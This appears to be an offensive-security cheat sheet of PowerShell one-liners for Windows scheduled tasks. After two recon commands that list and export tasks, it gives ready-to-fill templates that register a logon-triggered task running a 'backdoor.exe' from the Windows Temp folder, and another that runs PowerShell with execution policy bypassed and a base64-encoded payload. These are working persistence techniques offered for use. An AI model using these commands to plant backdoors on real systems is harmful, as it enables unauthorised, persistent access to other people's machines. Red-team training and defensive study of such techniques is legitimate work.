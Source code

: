 
# pwsh
% windows, scheduled tasks

#plateform/windows #target/local #cat/RECON/SCHEDULED-TASK #tag/powershell 

## scheduled tasks - find all  
```powershell
Get-ScheduledTask | select TaskName,State
```

## scheduled tasks - detal
```powershell
Get-ScheduledTask <task_name> |Export-ScheduledTask
```

## scheduled tasks - launch binary at user logon
```powershell
$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c  <binary_full_path|C:\windows\Temp\backdoor.exe>"; $T = New-ScheduledTaskTrigger -AtLogOn -User "<user|.\jubeaz>"; $P = New-ScheduledTaskPrincipal "<user|.\jubeaz>"; $S = New-ScheduledTaskSettingsSet; $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S; Register-ScheduledTask -Force -TaskName <task_name|jubeaz> -InputObject $D
```

## scheduled tasks - launch powhershell encoded at user logon
```powershell
$A = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy bypass -e   <b64_payload>"; $T = New-ScheduledTaskTrigger -AtLogOn -User "<user|.\jubeaz>"; $P = New-ScheduledTaskPrincipal "<user|.\jubeaz>"; $S = New-ScheduledTaskSettingsSet; $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S; Register-ScheduledTask -Force -TaskName <task_name|jubeaz> -InputObject $D
```